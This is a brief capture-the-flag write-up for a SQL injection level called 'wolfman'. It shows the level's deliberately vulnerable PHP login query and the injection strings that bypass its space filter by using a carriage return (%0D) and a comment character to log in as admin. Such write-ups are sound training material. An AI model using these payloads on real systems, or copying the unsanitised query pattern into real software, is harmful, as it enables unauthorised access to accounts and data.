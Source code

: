 # Wolf man 

```sql

<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 

  if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~"); 
  $query = "select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("wolfman"); 
  highlight_file(__FILE__); 
?>
```

we can use ``` `or 1=1 --+ ``` to inject our query  so it's modified to ```select id from prob_wolfman where id='guest' and pw='' or 1=1 --+```  

The payload used here : ```%0DOR%0Did='admin'%23``` the carriage return char(%0d) actually gets treated as  space in sql.



